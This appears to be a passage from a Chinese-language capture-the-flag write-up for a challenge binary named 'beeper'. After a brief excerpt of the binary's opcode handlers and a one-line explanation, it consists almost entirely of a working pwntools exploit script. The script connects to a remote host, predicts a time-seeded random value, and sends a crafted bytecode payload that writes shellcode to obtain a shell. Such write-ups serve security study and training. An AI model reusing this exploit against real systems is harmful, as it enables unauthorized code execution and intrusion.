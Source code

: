 ```python
case 'm':                                 // inc [reg1]
case 'u':                                 // dec [reg1]
case 'L':                                 // inc p2
case '1':                                 // dec p2
'''
```

利用他的`buy`功能,去执行shellcode,getshell

```python
#coding=utf8
from pwn import *
import ctypes
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

local = 0

if local:
	cn = process('./beeper')
	#bin = ELF('./beeper')
else:
	cn = remote('47.98.57.19', 23333)


def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()

libc = ctypes.CDLL('libc.so.6')
t =  libc.time(0)
libc.srand(t)
rnd = libc.rand()
rnd = (((rnd+16)<<12))&0xffffffff
success(hex(rnd))

cn.recv()
pwd = '\x86\x13\x81\x09\x62\xFF\x44\xD3\x3F\xCD\x19\xB0\xFB\x88\xFD\xAE\x20\xDF'
pwd = pwd.ljust(0x72,'\x00')
cn.sendline(pwd)

cn.recvuntil('choice>>')

cn.sendline('4')

pwd = '\x86\x13\x81\x09\x62\xFF\x44\xD3\x3F\xCD\x19\xB0\xFB\x88\xFD\xAE\x20\xDF'
pwd=pwd.ljust(104,'\x00')
pwd+=p64(rnd)
pwd+=r'mmhuuuuuuuhLLLLL{uuuuu1}uuuhLLLLL{mmmmmmmmmmmmmmmmmmmmmmmmmmmmmm1}mmhLLLLL{mmmmmmmmm1}mhLLLLL{uuuuuu1}uhLLLLL{mmmmmmmmmm1}mmmhLLLLL{mmmmmmmmmmmmmm1}mmmmhLLLLL{mmmmmmmmm1}mhLLLLL{mmmmmmmmm1}mhLLLLL{mmmmmmmmm1}mhLLLLL{mmmmmmmmmmmmmmmmmmmmmm1}mmmmhmmmmmmmmhLLLLL{uuuuuuuuuuuuuuuuuuuuuu1}uuhmmmmmmmmmmmmmmmmmmmmhLLLLL{mmmmmmmmmmmmmmmmmmmmmm1}hLLLLL{mmmmmmmmmmmmmm1}mmhmmmmmmmmmmmmmmmmmhLLLLL{mmmmmmmmmmmmmm1}mmmhLLLLL{uuuuuuuuuuuuuuuuuuuuuu1}uhLLLLL{uuuuuuuuuuuuuuuuuuuu1}uuuhmmmmmmmmmmmmmmmmmmhLLLLL{uuuuu1}uuuhLLLLL{uuuuuuu1}uhLLLLL{uuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuu1}uuuhLLLLL{uuuuuuuuuuuuuuuuuuu1}uhLLLLL{uuuuuuuuuuuuuuuuuuuuu1}uuuuhLLLLL{uuuuuu1}uhLLLLL{uuuuuuuuuuuu1}uhLLLLL{mmmmmmmmmmmmmmmmmmmmmmmmmmm1}hLLLLL{uuuuuu1}hLLLLL{mmmmmmmmmmmmmm1}mmmmhLLLLL{uuuuuuuuuuuuuuuuuu1}hmmmmmmmmmmmmmmhhLLLLL{uuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuu1}uuuhLLLLL{mmmmmmmmmmmmmmmmmmmmmmmmm1}mmmmhLLLLL{uuuuu1}uuuhLLLLL{mmmmm1}mmmhmmmmmmmmmmmmmmmmhLLLLL{mmmmmmmmmmmmmmmmmmmmmmm1}mmmmhLLLLL{uuuuuuuuuuuuu1}uuuhLLLLL{mmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmm1}mmmhmmmmmmmhuuuuuuuuuuuuuuuuuuuuuhmmmmmmmmmmmmmmmmhLLLLL{uuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuu1}uuuuhLLLLL{uuuuuuuuuuuu1}uh'
pwd+='\x00'
cn.recvuntil('password:')
cn.sendline(pwd)
```